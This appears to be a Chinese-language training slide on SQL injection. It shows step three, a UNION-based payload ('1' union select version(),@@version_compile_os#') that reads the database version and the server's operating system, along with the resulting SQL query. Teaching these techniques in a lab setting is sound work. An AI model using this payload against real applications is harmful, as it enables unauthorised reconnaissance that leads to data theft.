

# SQL注入方法
三：获取数据库版本和当前操作系统
	输入 1' union select version(),@@version_compile_os#进行查询
version() 获取当前数据库版本.
@@version_compile_os 获取当前操作系统
实际执行的Sql语句是:
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;